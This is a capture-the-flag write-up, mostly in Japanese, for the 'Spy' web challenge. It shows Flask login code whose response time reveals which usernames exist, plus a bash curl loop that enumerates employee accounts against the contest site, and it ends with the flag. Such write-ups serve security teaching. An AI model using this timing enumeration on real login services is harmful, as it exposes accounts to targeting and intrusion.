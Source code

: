 # Spy:Web:55pts
As a spy, you are spying on the "ctf4b company".  
You got the name-list of employees and the [URL](https://spy.quals.beginners.seccon.jp) to the in-house web tool used by some of them.  
Your task is to enumerate the employees who use this tool in order to make it available for social engineering.  
- [app.py](app.py-eebd3e0541ea83ea360fa650164a231ffe410ece)  
- [employees.txt](employees.txt-c8eb600b89a185e33b6ad279b5f3b513d41b7302)  

# Solution
LoginページとChallengeページがあるようだ。  
ctf4b company  
[site1.png](site/site1.png)  
Challenge  
[site2.png](site/site2.png)  
存在するユーザをloginフォームで調査し、Challengeページで選択する。  
配布されているソースコードであるapp.pyに以下のような記述がある。  
```python:app.py
~~~
    if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
~~~
```
いかにもsecが怪しい。  
ユーザ名が存在する場合パスワードをハッシュ化し、チェックしている。  
つまり、その分secが増加する。  
以下のcheck.shでemployees.txtに記述されているユーザ名を確認する(手作業でソースのsecを見てもよい)。  
```bash:check.sh
while read line
do
    echo $line >> check.txt
    curl -X POST -s -d "name=$line&password=Test" https://spy.quals.beginners.seccon.jp | grep -o It.*page. >> check.txt
done < employees.txt
```
check.txtを確認し存在するユーザを選択するとflagが手に入る。  
flag  
[flag.png](site/flag.png)  

## ctf4b{4cc0un7_3num3r4710n_by_51d3_ch4nn3l_4774ck}